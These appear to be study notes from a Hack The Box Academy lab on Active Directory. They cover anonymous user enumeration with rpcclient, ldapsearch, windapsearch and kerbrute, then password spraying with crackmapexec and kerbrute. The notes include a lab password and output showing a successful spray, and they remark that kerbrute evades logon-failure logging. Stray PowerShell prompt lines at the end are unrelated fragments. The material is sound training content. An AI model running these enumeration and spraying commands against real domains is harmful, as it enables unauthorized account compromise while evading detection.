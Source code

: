 ```
dollarboysushil@htb[/htb]$ rpcclient -U "" -N 172.16.5.5
rpcclient$> enumdomusers
```

#### **Using CrackMapExec --users Flag**

* `crackmapexec smb 172.16.5.5 --users`

2️⃣ \*\*Gathering Users with LDAP Anonymous\*\*

#### **Using ldapsearch**

* `dollarboysushil@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "`

it is easier to use windapsearch

#### **Using windapsearch**

* `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`

3️⃣ \*\*Enumerating Users with Kerbrute ⭐\*\*

if we have no access at all from our position in the internal network, we can use `Kerbrute` to enumerate valid AD accounts and for password spraying. this tool uses Kerberos Per-Authentication, which is much faster and stealthier

this method does not generate Windows event ID or logon failure.

The tool sends TGT requests to the domain controller without Kerberos Pre-Authentication to perform username enumeration. If the KDC responds with the error `PRINCIPAL UNKNOWN`, the username is invalid.

* `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

4️⃣ \*\*Credentialed Enumeration to Build our User List\*\*

Once we get valid credential, we can use various tools to build get the user from AD

* `sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users` → this will give the list of users

## **Spray Responsibly**

### **Internal Password Spraying - from Linux**

1️⃣ \*\*Using Kerbrute for the Attack ⭐\*\*

```
dollarboysushil@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist